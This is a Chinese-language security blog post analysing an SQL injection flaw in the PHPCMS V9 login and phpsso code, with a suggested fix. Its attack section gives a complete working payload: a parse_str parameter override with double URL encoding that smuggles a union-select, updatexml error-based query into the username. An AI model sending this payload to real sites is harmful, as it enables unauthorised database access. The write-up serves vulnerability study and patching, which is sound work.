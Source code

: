 title: PHPCMS V9 SQL注入漏洞
date: 2015-09-21 21:19:52
tags: 安全心得
---
<!-- more -->
# 0x00 漏洞描述

在PHPCMS V9版本（最新版本）的登录功能中，存在SQL注入漏洞，登录界面通过POST传入的data内容，解析其中的内容会作为注册、登陆、删除用户等操作的内容依据，而这些操作都会将这些数据作为数据库查询语句使用。因为代码没有做过滤，攻击者可以利用POST内容进行SQL注入。


# 0x01 漏洞成因

总结来说漏洞的成因主要是以下两点：

1.*POST内容用来进行数据库查询*

2.*5.3版本之后的PHP配置默认关闭GPC*

>gpc 是PHP的一个防止SQL注入的转义机制。所有的全局变量会被php的函数mysql magic\_quotes\_gpc进行编码，把一些特殊字符例如‘，“，\,NULL等等，加上反斜线\，从而避免sql注入.在PHP的配置中可以开启该功能。


# 0x02 漏洞代码分析

下面通过PHPCMS的源码来分析在文件中漏洞成因。


> \phpcms\modules\member\index.php
   
```
$username = isset($_POST['username']) && is_username($_POST['username']) ? trim($_POST['username']) : showmessage(L('username_empty'), HTTP_REFERER);
$password = isset($_POST['password']) && trim($_POST['password']) ? trim($_POST['password']) : showmessage(L('password_empty'), HTTP_REFERER);
$cookietime = intval($_POST['cookietime']);
$synloginstr = ''; //同步登陆js代码
            
if(pc_base::load_config('system', 'phpsso')) 
{
$this->_init_phpsso();
//通过client的ps_member_login方法传入$username、$password获取一段数据
$status = $this->client->ps_member_login($username, $password);
$memberinfo = unserialize($status);
```
**注意这段PHP代码中，username使用的is_username进行了过滤而password没有做任何处理。**

is_username(）这个函数的功能是检查用户名是否符合规定，是PHPCMS中的一个检查机制。具体代码如下：

```

/**
 * 检查用户名是否符合规定
 *
 * @param STRING $username 要检查的用户名
 * @return 	TRUE or FALSE
 */
function is_username($username) {
	$strlen = strlen($username);
	if(is_badword($username) || !preg_match("/^[a-zA-Z0-9_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]+$/", $username)){
		return false;
	} elseif ( 20 < $strlen || $strlen < 2 ) {
		return false;
	}
	return true;
}

```

Login对变量进行了处理之后将变量创给了ps\_member\_login函数
继续跟进ps\_member\_login和\_ps\_send函数

```
/**
* 用户登陆
* @param string $username 	用户名
* @param string $password 	密码
* @param int $isemail	email
* @return int {-2;密码错误;-1:用户名不存在;array(userinfo):用户信息}
*/
public function ps_member_login($username, $password, $isemail=0) {
	if($isemail) {
		if(!$this->_is_email($username)) {
			return -3;
		}
		$return = $this->_ps_send('login', array('email'=>$username, 'password'=>$password));
	} else {
		$return = $this->_ps_send('login', array('username'=>$username, 'password'=>$password));
	}
	return $return;
}
private function _ps_send($action, $data = null) 
{
    return $this->_ps_post($this->ps_api_url."/index.php?m=phpsso&c=index&a=".$action, 500000, $this->auth_data($data));
}
```
通过ps_member_login方法获取一段数据之后，再由\_ps\_send向phpsso发送http包的post数据，phpsso认证完成后，将用户的信息返回给member的login送入数据库进行查询处理。

这里基本上还原了PHPCMS对数据的处理，总结下基本流程：

1. 登录用户提交用户名和密码给menber的login
2. 然后member的login通过ps\_member\_login构造发送phpsso请求login验证的http包，并且将用户名和密码作为post数据.
3. phpsso认证完成后，将用户的信息返回给member的login进行后续处理 
4. 在整个认证过程中，password没有做任何处理就直接传入phpsso，phpsso没有对于解码数据进行过滤。

# 0x03 攻击方法

## 编码绕过

password字段如果存在特殊字符，在传入到程序时仍然会被转义，针对这个问题可以使用二次url编码的方法来搞定。所以，我们只需要在传password内容时传递%2527就可以让单引号出现在phpsso的变量中了。

## 数据查询

在phpsso的login中使用的是username做数据库查询，而不是passwod。而username是经过处理的，因此我们需要想法构造password让他具有查询的能力。

这里需要看PHPCMS是如何处理URL中的POST变量的。

```
if(isset($_POST['data'])) 
{
parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);
    if(empty($this->data) || !is_array($this->data)) {
        exit('0');
        }
} 
    else {
        exit('0');
}
```

这里POST数据使用了parse_str函数进行处理。它的功能是解析出POST数据中的变量值。
例如：

```
<?php
parse_str("id=23&name=John%20Adams");
echo $id."<br />";
echo $name;
?>
```
输出：
>23
John Adams

当我们的数据为“username=123&password=456”这样的字符串，会把它解析为：

>Array(
    username=>123,
    password=>456
)

但是这个函数存在解析问题，如果我们构造字符串成“usernamen=123&password=456&username=789”，他就会被解析为：

>Array(
    username=>789,
    password=>456
}

那这样我们的利用思路就有了：将”&username=”进行url编码后作为password的值用于在phpsso中覆盖之前的username值，在“&username=”后面添加进行两次url编码的SQL语句，构造出来的POST数据如下：

>usernmae=phpcms&password=%26username%3d%2527

通过这样的方法，我们绕过了username的检测，利用password提交了注入数据，现在我们来提交一段复杂的代码：

```
username=phpcms&password=123456&username=' union select '2','test\',updatexml(1,concat(0x5e24,(select user()),0x5e24),1),\'123456\',\'\',\'\',\'\',\'\',\'\',\'2\',\'10\'),(\'2\',\'test','5f1d7a84db00d2fce00b31a7fc73224f','123456',null,null,null,null,null,null,null,null,null#
```

经过编码后变成：

```
username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2buser())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523
```



# 0x04 防御方法

添加过滤代码，最好的方式应该是将转义和过滤放在数据库操作的前一步，这样可以极有效缓解SQL注入带来的问题。

```
\phpcms\modules\member\index.php

$username = isset($_POST['username']) && is_username($_POST['username']) ? trim($_POST['username']) : showmessage(L('username_empty'), HTTP_REFERER);
//$password = isset($_POST['password']) && trim($_POST['password']) ? trim($_POST['password']) : showmessage(L('password_empty'), HTTP_REFERER);
/* 过滤、转义 */
$password = isset($_POST['password']) && trim($_POST['password']) ? addslashes(urldecode(trim($_POST['password']))) : showmessage(L('password_empty'), HTTP_REFERER);
/**/

```

# 0x05 另一种玩法

如果能拿到auth_key的话可以通过auth\_key进行注入，具体方法请参考：

[PHPCMS V9 一个为所欲为的漏洞](https://0x9.me/7CeWU)


# 尾巴

这个洞利用不太方便，官方已经修复了漏洞，而且必须是**PHP5.3**才能利用。


